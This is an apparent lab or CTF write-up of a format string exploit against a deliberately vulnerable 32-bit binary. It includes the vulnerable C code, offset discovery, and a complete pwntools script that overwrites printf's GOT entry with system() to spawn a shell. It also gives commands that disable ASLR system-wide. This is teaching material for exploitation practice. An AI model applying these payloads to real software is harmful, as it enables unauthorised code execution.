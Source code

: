 # 🔓 Format String Exploit — GOT Overwrite (ASLR Disabled)

## 📁 Binary: `got_overwrite-32`

### 🧠 Objective

Exploit a format string vulnerability to overwrite the GOT entry of `printf()` with `system()` from libc. Once done, calling `printf("/bin/sh")` will effectively call `system("/bin/sh")`, giving us a shell.

---

## 🏗️ Binary Analysis

**Protections:**

```bash
checksec got_overwrite-32
```

```
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```

---

## 🔎 Vulnerability

The binary uses this vulnerable function:

```c
void vuln() {
    char buffer[300];

    while(1) {
        fgets(buffer, sizeof(buffer), stdin);
        printf(buffer);  // 🔥 Format string vulnerability
        puts("");
    }
}
```

We're directly passing user input to `printf()` without a format specifier, which allows us to:

* Leak memory via `%p`
* Write to memory using `%n`, `%hn`, or `%hhn`

---

## ⚙️ Exploitation Strategy

### Goal:

Overwrite the GOT entry of `printf()` with the address of `system()` in libc.

### Steps:

1. Confirm ASLR is disabled
2. Leak the **format string offset** to know where our input is on the stack

we can do this by using 

```bash
$ ./got_overwrite-32 
%p %p %p %p %p
0x12c 0xf7fa15c0 0x8049191 0x6 0x25207025
```

here we can se that 0x25207025 translate to %p so our input is on the 5th offset on the stack



3. Use `fmtstr_payload()` from Pwntools to craft a format string that writes `libc.sym['system']` to `elf.got['printf']`

```python
fmtstr_payload(5, {elf.got['printf']: libc.sym['system']})
```

this will genrate an payload using `%n` or `%hn` or `%hhn`

4. Send `"/bin/sh"` as input — which now gets executed as `system("/bin/sh")`

---

## 🧪 Exploit Script

```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = ELF('/usr/lib/i386-linux-gnu/libc.so.6')
libc.address = 0xf7d6e000  # ASLR disabled

p = process()

# Offset determined via trial: input is 5th argument on the stack
payload = fmtstr_payload(5, {elf.got['printf']: libc.sym['system']})
print(payload)

# Step 1: Overwrite printf@GOT → system
p.sendline(payload)

# Step 2: Trigger system("/bin/sh") via printf("/bin/sh")
p.sendline('/bin/sh')

# Step 3: Shell!
p.interactive()
```

---

## 💣 Notes

* You must run this **with ASLR disabled**, e.g.:

  ```bash
  echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
  ```

To enable ASLR again on your Linux system after disabling it, you can simply run the following command:

```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```


| Value | Meaning                                 |
| ----- | --------------------------------------- |
| `0`   | ASLR disabled                           |
| `1`   | Partial ASLR                            |
| `2`   | **Full ASLR** (default on most systems) |

<br>


* If unsure about the offset, test it manually using:

  ```bash
  ./got_overwrite-32
  AAAA.%p.%p.%p...
  ```

---

## 🐚 Result

Upon successful execution, the `printf("/bin/sh")` call gets redirected to `system("/bin/sh")`, spawning a shell.

![result](../img/non_aslr_result.png)

boom we got the shell


---

## 📂 Category

✅ Format String | ✅ GOT Overwrite | ❌ ASLR | ✅ 32-bit

